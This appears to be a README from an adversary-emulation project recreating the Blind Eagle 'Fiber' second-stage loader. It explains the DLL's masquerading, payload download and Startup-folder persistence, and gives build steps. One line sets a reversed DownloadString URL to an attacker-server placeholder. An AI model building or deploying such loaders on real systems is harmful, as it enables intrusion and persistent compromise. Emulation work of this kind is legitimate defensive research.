


# Fiber DLL

## Overview

Fiber is a second stage loader that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. Fiber has three functions that it performs:

1) Copies the VBS loader to `C:\Windows\Temp` and renames it `OneDrive.vbs`

2) Downloads and executes the injector fsociety.dll

3) Establishes userland persistence by creating an `lnk` file in the users Startup folder posing as notepad.exe

The VAI method of `fiber.dll` takes one argument, a URL. The URL is typically passed in obfuscated form from the first stage loader to fiber.dll. fiber.dll will unreverse the URL and replace junk characters with ones to form a proper URL. On the other end of the URL is the AsyncRAT payload (asy.txt).

## Usage

`fiber.dll` first needs to be encoded in base64. `file-ops.py` has a function for this and can be used as follows:

Windows:
```PowerShell
py.exe ./file-ops.py -b path\to\repo\birdsofprey\Resources\fiber\fiber\bin\Release\fiber.dll
```

Linux/Mac:
```bash
python3 ./file-ops.py -b path/to/repobirdsofprey/Resources/fiber/fiber/bin/Release/fiber.dll
```

The URL on line 55 will also need to be updated prior to build with the IP address of the attacker server:

```
55               }.DownloadString(Strings.StrReverse("slx.pmuR/pmuR/<reverse-attacker-ip>//:ptth")); // http://<attacker-ip>/Rump/Rump.xls
```

## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fiber.sln` solution. Also instructions for the Visual Studio GUI are also included:


### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\fiber> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fiber.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    

    

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\fiber\bin\Release`

    

## Cleanup

1) delete `OneDrive.vbs` from `C:\Windows\Temp`

2) delete `notepad.lnk` from `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`

## References and CTI

1) https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia

2) https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/